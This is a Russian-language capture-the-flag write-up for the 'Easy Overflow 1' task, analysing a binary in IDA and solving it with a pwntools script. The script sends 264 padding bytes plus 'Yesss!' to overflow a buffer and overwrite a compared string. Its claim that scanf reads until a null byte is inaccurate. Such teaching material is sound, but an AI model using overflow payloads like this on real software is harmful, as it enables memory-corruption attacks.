 
# Сайт: forkbomb.ru
# Автор: @mrvos (Vlad Roskov) 
# Задание: Easy Overflow 1
# Сложность: Easy

Плавно подходим к четвертому заданию из серии MicCheck. В задании теперь не получится пропатчить память и сразу же получить флаг ибо мы должны отправлять свой ввод на удаленный сервер. Чтобы это сделать надо воспользоваться библеотекой, которая называется pwntools. 
Традиционно начинаем статически анализировать программу.

#### Статический анализ.

![image](https://github.com/user-attachments/assets/790fd5e8-767c-4a75-8aca-14f7551f1750)

В первом блоке программы заносим адрес строки `dword_4006A4` в переменную `giveflag`. По данному адресу лежит строка `No.` о чем нам любезно подсказывает IDA.

![image](https://github.com/user-attachments/assets/f681879a-c794-4192-beeb-fc25da34f2f0)

Ну и собственно сравнивается строка `giveflag` и `s2` с помощью функции `_strcmp` и прыгает в одну из двух веток: одна выводит "локальный флаг", а другая, что флаг нам не дадут. <br />
![image](https://github.com/user-attachments/assets/1803bb82-fdba-4db0-b016-92a71400d56a)
![image](https://github.com/user-attachments/assets/1477319a-d6b0-4d62-91e7-f1c27221065d)
![image](https://github.com/user-attachments/assets/2289ea6b-c081-42af-b2fb-97b714d7a4c9)

#### Решение

Приступим к решению задачи. Язык си устроен так, что в конце строки всегда ставится нулевой символ, который говорит о том, что строка закончилась.
Соотвественно, функция `scanf` считывает пока не встретит нулевой байт. Это означает, что пока `scanf` его не встретит, мы можем записывать строку такой длины, какой 
захотим, а именно это нам и нужно, чтобы переписать строку `No.` на `Yesss!`. 

Получим информацию о бинарном файле с которым мы работаем:
```py
from pwn import *

p = ELF('./mc4_censored')
```

![image](https://github.com/user-attachments/assets/dd5d7fc8-a415-49a0-9e67-29d2ab92ef75)

Никаких защит не стоит, все замечательно, можно спокойно переполнять. Напишем следующий скрипт на языке python

```py
#!/usr/bin/env python3
from pwn import *


p = process('./mc4_censored')
pause()
p.sendline(b"A"*264 + b"Yesss!")
p.interactive()

```


